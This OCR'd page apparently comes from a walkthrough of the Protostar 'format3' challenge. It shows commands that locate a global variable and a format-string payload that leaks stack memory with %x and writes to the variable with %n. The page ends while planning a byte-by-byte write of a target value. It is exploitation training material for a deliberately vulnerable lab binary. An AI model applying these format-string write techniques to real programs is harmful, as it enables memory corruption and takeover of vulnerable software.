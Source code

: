 
\begin{center}\begin{LARGE}Format 3\end{LARGE}\end{center}
 
\subsection*{Problem}

We can see that the problem is similar to format 2, but this time we need to
carefully modify the variable in memory such that in the compare statement we
have the required 4 bytes value.

\begin{lstlisting}[language=bash]
objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
\end{lstlisting}

Similarly we find the memory location of target again. We now will begin
injecting some string format to test the output of the program.

\subsection*{Idea and Attack process}

\begin{lstlisting}[language=bash]
python -c "print 'AAAA' + '%x.'*15" | ./format3
AAAA0.bffffad0.b7fd7ff4.0.0.bffffcd8.804849d.bffffad0.200.b7fd8420.bffffb14.41414141.252e7825.78252e78.2e78252e.
target is 00000000 :(
\end{lstlisting}

We run the above code to first find out where in memory does the input reside in.
Having found the location, we will now inject the memory location of target and
we will also modify the format specifier which resides at the location of the string.

\begin{lstlisting}[language=bash]
python -c "print '\xf4\x96\x04\x08' + '%x.'*11 + '%n'" | ./format3
0.bffffad0.b7fd7ff4.0.0.bffffcd8.804849d.bffffad0.200.b7fd8420.bffffb14.
target is 0000004c :(
\end{lstlisting}

Now that we can see there is some modifications to the target variable, we want
to write a specific value of \lstinline|0x01025544| using this pointer. This a 4byte value
to be written. We can conclude that we have to write this value to 4 memory
location from \lstinline|0x080496f4| to \lstinline|0x080496f7|.

